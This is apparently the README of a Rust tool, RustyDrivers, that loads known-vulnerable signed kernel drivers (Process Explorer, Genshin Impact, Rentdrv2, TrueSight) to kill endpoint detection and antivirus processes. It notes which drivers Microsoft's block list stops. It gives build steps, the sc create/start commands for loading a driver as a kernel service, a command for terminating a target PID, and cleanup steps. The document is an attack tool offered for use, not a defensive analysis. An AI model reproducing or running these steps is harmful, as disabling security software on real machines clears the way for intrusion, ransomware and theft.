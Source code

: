 # RustyDrivers
This project is a BYOVD collection with the focus on killing EDR / AV processes.

Currently the following drivers are supported:
| **Driver**       | **Argument Name** | **Blocked** |
|------------------|-------------------|-------------|
| Process Explorer | process_explorer  | Yes         |
| Genshin Impact   | genshin           | Yes         |
| Rentdrv2         | rentdrv2          | No          |
| TrueSight        | truesight         | No          |

Blocked means that the driver is in the [block list](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/windows-defender-application-control/design/microsoft-recommended-driver-block-rules#vulnerable-driver-blocklist-xml) of Microsoft and cannot be executed on an up to date Windows.

# Build
```
cargo build --release
```

# Usage
```
rusty_drivers.exe --help            
Usage: rusty_drivers.exe --pid <PID> --driver <DRIVER>

Options:
  -p, --pid <PID>
  -d, --driver <DRIVER>
  -h, --help             Print help
  -V, --version          Print version
```

# Example
Since the executable does not register a service to exploit the driver, this needs to be done manually:
```
sc create Test123 binpath= c:\test\<DRIVER>.sys type= kernel start= auto
```
Afterwards the service can be started:
```
sc start Test123
```
Finally, to shut down the process with the PID of 1234 using the Process Explorer driver the following command can be used:
```
rusty_drivers.exe --pid 1234 --driver process_explorer          
```
Do not forget to cleanup the service afterwards:
```
sc stop Test123
sc delete Test123
```

